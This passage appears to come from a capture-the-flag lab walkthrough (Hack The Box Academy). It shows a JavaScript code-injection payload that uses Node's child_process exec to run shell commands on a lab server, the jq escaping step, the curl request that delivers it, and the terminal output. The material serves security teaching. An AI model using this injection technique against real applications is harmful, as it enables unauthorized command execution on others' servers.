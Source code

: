 Answer: `HTB{c0d3_1nj3c710n_l34d5_70_c0mm4nd_1nj3c710n!}`

# Exploitation: Remote Code Execution

## Question 1

### "Try to replicate what you learned in this section to find 'flag.txt' and get its content. What is the content of the flag?"

From the previous question, students need to use the same command injection payload and steps, however, instead of reading and writing files, they need execute commands on the backend server and to write the content of the flag file "flag.txt" into the file `/var/www/html/denied.html`:

Code: javascript

```javascript
const { exec } = require("child_process"); exec("cat /flag.txt > /var/www/html/denied.html");
```

As done previously, students need to add `");` at the beginning of the payload and `//` at the end of it and then escape all quotes using `jq`:

Code: javascript

```javascript
"); const { exec } = require("child_process"); exec("cat /flag.txt > /var/www/html/denied.html");//
```

Code: shell

```shell
echo '"); const { exec } = require("child_process"); exec("cat /flag.txt > /var/www/html/denied.html");//' | jq -aR .
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-mbugtfaub2]─[~]
└──╼ [★]$ echo '"); const { exec } = require("child_process"); exec("cat /flag.txt > /var/www/html/denied.html");//' | jq -aR .

"\"); const { exec } = require(\"child_process\"); exec(\"cat /flag.txt > /var/www/html/denied.html\");//"
```

Then, students need to send the payload to the spawned target machine as the value for the `key` JSON variable:

Code: shell

```shell
curl http://STMIP:STMPO/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"cat /flag.txt > /var/www/html/denied.html\");//"'}
```

```
┌─[eu-academy-1]─[10.10.14.81]─[htb-ac413848@htb-ozpobfo5uw]─[~]
└──╼ [★]$ curl http://167.71.141.57:32536/admin -X POST -d '{"key":"\"); const { exec } = require(\"child_process\"); exec(\"cat /flag.txt > /var/www/html/denied.html\");//"'}
<!DOCTYPE html>

<head>
    <title>Admin Dashboard</title>
<SNIP>
```
